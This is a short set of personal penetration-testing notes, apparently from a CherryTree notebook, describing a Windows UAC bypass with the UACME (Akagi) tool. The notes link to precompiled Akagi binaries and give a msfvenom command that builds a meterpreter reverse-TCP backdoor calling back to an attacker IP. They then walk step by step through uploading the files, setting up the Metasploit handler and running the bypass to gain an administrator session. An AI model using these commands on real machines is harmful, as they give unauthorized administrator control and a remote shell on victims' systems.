

UACMe Tool
Requirements:
• session already established with the target machine
What we want to do?
• establish another session with the target machine now with Admin privileges
Site of the tool:
https://github.com/hfiref0x/UACMEThe main purpose of the UACME tool is bypass UAC and to do it can implement different methods.
We have to run in it on the target machine and select the method to use
1.
Use Visual Studio to compile the UAC Bypass(UACME).
UACME is a Windows program without a binary executable file but only Source code, because of that we have first to compile it in Windows!
→ HERE ← i have already compiled the program(folder:
..\CherryTree\Files\network security\post_exploitation\privilege_escalation)
32 bit:
https://github.com/DenFox93/Compiled-programs/raw/main/Akagi32.exe64 bit:
https://github.com/DenFox93/Compiled-programs/raw/main/Akagi64.exe
2. Use msfvenom to create the payloadWe have to use it as a backdoor in the Windows machine
LHOST and LPORT are respectively the Ip address of the attacker machine and its listening ports
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.122 LPORT=2345 -f exe -o /home/kali/Desktop/exploit.exe
3.
From the first established session we have to upload both the payload and the UAC Bypass to on the target machineCome back to the session that we have already but
without admin privileges and upload the the files to the target
meterpreter > upload /home/kali/Desktop/exploit.exe "C:\Documents and Settings\Administrator\Desktop" #upload of exploit.exe
meterpreter > upload /home/kali/Desktop/Akagi32.exe "C:\Documents and Settings\Administrator\Desktop" #upload of Akagi32.exe
meterpreter > getprivs #we can see that now we do not have admin privileges
PS> whoami /priv #alternative
meterpreter > background #put in background session without admin privileges
msf > use exploit/multi/handler
msf > set PAYLOAD windows/meterpreter/reverse_tcp #same payload of msfvenom
msf > show options
msf > set LHOST 192.168.1.122
msf > set LPORT 2345
msf > run -j #wait for incoming connections in BACKGROUND
Now we have to wait for the connection from the target, that we can do from the first meterpreter session(without privileges)
5. From the first session(without privileges) create a new meterpreter session(with privileges) msf > sessions -l
msf > sessions -i 1 #session whitout privileges
meterpreter> shell #to have a shell, otherwise we have to use the "execute" command for execute
#a command
C:\Users\danie\Desktop> Akagi32.exe 10 C:\Users\danie\Desktop\exploit.exe
(ENTER to return to C:\Users\danie\Desktop> )
C:\Users\danie\Desktop> CTRL-C to come back to meterpreter
meterpreter > background
meterpreter > sessions
meterpreter > sessions -i 2
Now we have Admin privileges!
